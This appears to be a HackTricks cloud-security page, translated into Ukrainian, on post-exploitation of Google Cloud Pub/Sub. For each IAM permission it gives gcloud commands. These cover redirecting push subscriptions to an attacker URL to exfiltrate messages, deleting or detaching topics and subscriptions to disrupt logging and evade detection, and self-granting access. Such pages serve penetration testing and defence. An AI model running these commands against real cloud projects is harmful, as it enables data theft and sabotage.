 # GCP - Pub/Sub Постексплуатація

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

Для отримання додаткової інформації про Pub/Sub перегляньте наступну сторінку:

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

Опублікуйте повідомлення в темі, корисно для **відправки несподіваних даних** та активації несподіваних функцій або експлуатації вразливостей:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.\
Можливо видалити тему, навіть якщо до неї прикріплені підписки.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Використовуйте цей дозвіл, щоб оновити деякі налаштування теми, щоб порушити її, такі як `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Надайте собі дозвіл виконувати будь-які з попередніх атак.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Отримайте всі повідомлення на веб-сервері:
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
Створіть підписку та використовуйте її для **витягування повідомлень**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Видалення підписки** може бути корисним для порушення системи обробки журналів або чогось подібного:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Використовуйте цей дозвіл, щоб оновити деякі налаштування, щоб повідомлення зберігалися в місці, до якого ви маєте доступ (URL, таблиця Big Query, Bucket) або просто для його порушення.
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
### `pubsub.subscriptions.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Атакуйте схему на тему, щоб повідомлення не відповідали їй, і, отже, тема була порушена.\
Якщо немає жодних схем, можливо, вам потрібно буде створити одну.
```json:schema.json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Це може виглядати як видалення схеми, але ви зможете надсилати повідомлення, які не відповідають схемі. Однак, оскільки схема буде видалена, жодне повідомлення насправді не потрапить у тему. Тож це **БЕЗГЛУЗДО**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Це створить знімок усіх не підтверджених повідомлень і поверне їх назад до підписки. Не дуже корисно для атакуючого, але ось так:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{{#include ../../../banners/hacktricks-training.md}}
